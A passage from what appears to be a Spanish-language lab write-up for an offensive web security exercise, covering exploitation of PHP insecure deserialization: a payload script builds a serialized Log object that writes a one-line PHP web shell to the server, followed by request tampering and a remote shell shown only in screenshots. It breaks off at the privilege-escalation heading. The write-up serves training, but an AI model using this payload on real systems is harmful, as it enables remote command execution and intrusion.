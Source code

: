 ```php
$obj->filename = "";
$obj->data = '';

echo serialize($obj)."\n";

?>
```
### Fase 3: Explotación de vulnerabilidades
#### Creación del objeto serializado

En el fichero "payload.php" se modifican las siguientes lineas:

```php
<?php

$obj = new Log();
$obj->filename = "/var/www/html/scriptz/shell_c.php";
$obj->data = '<?php system($_GET[\'cmd\']); ?>';

echo serialize($obj)."\n";

?>
````
Y se obtiene el objeto php serializado:

`php payload.php`

`O:3:"Log":2:{s:8:"filename";s:33:"/var/www/html/scriptz/shell_c.php";s:4:"data";s:30:"<?php system($_GET['cmd']); ?>";}`

#### Shell remota en el sistema

A continuación se realiza lo siguiente:

1. En la petición POST/index.php se cambia el valor del parámetro "param" por el del objeto serializado:

![tamper](https://github.com/Nyanyi/Awae-exercises/blob/master/pipe/imagenes/tamper_object.png)

2. Se comprueba que se ha creado el fichero shell.c de forma correcta:

![shell_c](https://github.com/Nyanyi/Awae-exercises/blob/master/pipe/imagenes/images_dic.png)

3. Se establece una remote shell:

![nc_shell](https://github.com/Nyanyi/Awae-exercises/blob/master/pipe/imagenes/nc_shell.png)

4. Sesión:

![sesion](https://github.com/Nyanyi/Awae-exercises/blob/master/pipe/imagenes/sesion_remota.png)


### Fase 4: Elevación de privilegios
